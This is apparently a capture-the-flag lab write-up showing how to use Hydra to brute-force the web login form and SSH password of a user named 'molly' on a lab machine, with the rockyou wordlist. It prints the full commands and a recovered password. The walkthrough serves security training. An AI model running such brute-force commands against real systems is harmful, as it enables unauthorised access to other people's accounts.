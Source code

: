 The form and parameters to use with Hydra for Post-Web-Form are:

```bash
sudo hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.226.238 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."
```

* user (-l): molly
* wordlist (-P): /usr/share/wordlists/rockyou.txt
* IP: 10.10.226.238
* method: http-post-form "/login:username=^USER^\&password=^PASS^:
* error message: Your username or password is incorrect."

```bash
sudo hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.226.238 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."
```

<figure><img src="../.gitbook/assets/Schermata del 2023-07-08 18-05-24.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
molly:sunshine
{% endhint %}

We can login using them and finding flag1.

<details><summary>🚩 Flag 1</summary></details>

### Task 2 - Use Hydra to bruteforce molly's SSH password. What is flag 2?

The form and parameters to use with Hydra for SSH are:

```bash
sudo hydra -l <username> -P <full path to pass> $IP -t 4 ssh
```

* user (-l): molly
* wordlist (-P): /usr/share/wordlists/rockyou.txt
* IP: 10.10.226.238
* port: ssh

```bash
sudo hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.226.238 ssh
```

<figure><img src="../.gitbook/assets/Schermata del 2023-07-08 18-06-05.png" alt=""><figcaption></figcaption></figure>
